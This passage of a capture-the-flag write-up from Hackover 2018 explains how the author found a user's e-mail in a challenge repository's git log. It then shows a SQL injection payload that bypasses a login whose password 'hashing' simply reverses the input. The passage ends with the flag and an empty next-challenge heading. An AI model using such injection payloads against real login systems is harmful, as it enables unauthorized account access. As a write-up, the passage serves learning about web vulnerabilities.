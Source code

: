 The `login` method has a clear SQL injection, since the password "hashing" just reverses the input we give it, without any sanitising. Before `login` is called however, we need to pass the `user_exists?` check, which seems to use prepared statements. So we still need an existing e-mail.

The file above has commits from two users, `h18johndoe` and `john1234`. GitHub doesn't seem to show e-mail addresses of users, but if we clone the repo and check the commit log, we can see the e-mails:

```
$ git log
commit b26aed283d56c65845b02957a11d90bc091ac35a
Author: John Doe <angelo_muh@yahoo.org>
Date:   Tue Oct 2 23:55:57 2018 +0200

    Add login method

commit 5383fb4179f1aec972c5f2cc956a0fee07af353a
Author: John Doe <jamez@hemail.com>
Date:   Tue Oct 2 23:04:13 2018 +0200

    Add methods

commit 2d3e1dc0c5712efd9a0c7a13d2f0a8faaf51153c
Author: John Doe <john_doe@gmail.com>
Date:   Tue Oct 2 23:02:26 2018 +0200

    Add dependency injection for database

commit 3ec70acbf846037458c93e8d0cb79a6daac98515
Author: John Doe <john_doe@notes.h18>
Date:   Tue Oct 2 23:01:30 2018 +0200

    Add user repo class and file
```

And the last one (earliest commit chronologically) is actually the correct e-mail address: `john_doe@notes.h18`. After entering this e-mail we get asked for the password, and this is where we can do the SQL injection, since we don't know the user's password.

We only need to login, so we can do an extremely simple injection:

    input:   'or''=='
    reverse: '==''ro'
    full query after injection and re-reverse:
      select id, phone, email from users where email = 'john_doe@notes.h18'
      and password_digest = ''or '' == '' limit 1

`hackover18{I_KN0W_H4W_70_STALK_2018}`

## 100 Forensics / I AM MANY ##

**No description**

**Files provided**

